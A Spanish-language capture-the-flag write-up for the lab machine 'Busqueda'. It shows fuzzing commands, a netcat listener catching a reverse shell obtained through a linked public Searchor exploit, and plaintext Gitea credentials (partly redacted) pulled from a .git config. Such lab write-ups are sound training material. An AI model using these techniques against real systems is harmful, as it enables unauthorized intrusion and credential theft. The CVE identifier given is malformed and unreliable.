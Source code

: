 ### Enumeración dentro de la pagina web
Algo que siempre hago en todas las paginas web que veo, es un reconocimiento tanto de directorios como de subdominios, para ver si encuentro algo, y lo dejo corriendo hasta el final
~~~ bash
feroxbuster -u http://searcher.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php

wfuzz -u http://10.10.11.208 -H "Host:FUZZ.searcher.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
~~~
Mientras se deja enumerar directorios y subdominios, se reviso la página web, en la enumeración de la misma de ve que esta hecho en flask (python) y usa una aplicación prediseñada "Searchor 2.4.0".
### CVE-43364
Al buscar alguna vulnerabilidad para dicha versión, se pudo encontrar una exploit en github que muestra una PoC, esta se basa en la forma en que la aplicación construye el enlace que se coloca, de manera que se puede generar una reverse shell (https://github.com/jonnyzar/POC-Searchor-2.4.2).
Realmente el github lo explica bastante bien asi que directamente con acceso a la shell de la maquina objetivo.
~~~bash
sudo nc -nlvp 80  
listening on [any] 80 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.208] 45092
/bin/sh: 0: can't access tty; job control turned off
$ id  
uid=1000(svc) gid=1000(svc) groups=1000(svc)
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con esto ya se puede ver la user flag
~~~
svc@busqueda:/var/www/app/templates$ cd 
svc@busqueda:~$ ls
user.txt
svc@busqueda:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para la escalada de privilegios y usar el comando "sudo -l" pide una contraseña, por lo que realizando una busqueda exhaustiva, se encontró unas credenciales y ademas un subdominio gitea.
~~~
svc@busqueda:/var/www/app/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh<SNIP>92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

~~~
Añadiendo el subdominio y probando las credenciales en gitea son existosas, pero no se encuentra ningun tipo de proyecto que otorgue algun tipo de información.